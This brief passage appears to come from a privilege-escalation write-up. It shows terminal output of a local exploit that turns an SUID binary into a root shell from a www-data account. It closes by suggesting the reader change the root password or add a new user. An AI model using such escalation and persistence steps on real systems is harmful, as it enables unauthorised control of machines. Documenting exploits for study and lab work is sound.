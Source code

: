 ```
Executable now root-owned
Cleanup completed, re-invoking binary
/proc/self/exe: invoked as SUID, invoking shell ...
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

That is! Now you can do whatever you want for example change `root` password, create a new user or something else.